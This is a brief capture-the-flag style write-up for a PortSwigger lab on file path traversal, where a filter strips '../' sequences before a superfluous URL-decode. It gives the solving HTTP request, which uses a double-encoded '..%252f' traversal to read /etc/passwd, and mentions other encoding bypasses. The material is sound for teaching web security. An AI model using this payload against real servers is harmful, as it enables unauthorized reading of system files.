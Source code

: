 # 4 - Traversal sequences stripped with superfluous URL-decode

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

 You might be able to use various non-standard encodings, such as `..%c0%af` or `..%252f`, to bypass the input filter.

![](../../.gitbook/assets/imagen%20%28634%29.png)

```text
GET /image?filename=..%252f..%252f..%252f/etc/passwd HTTP/1.1
```




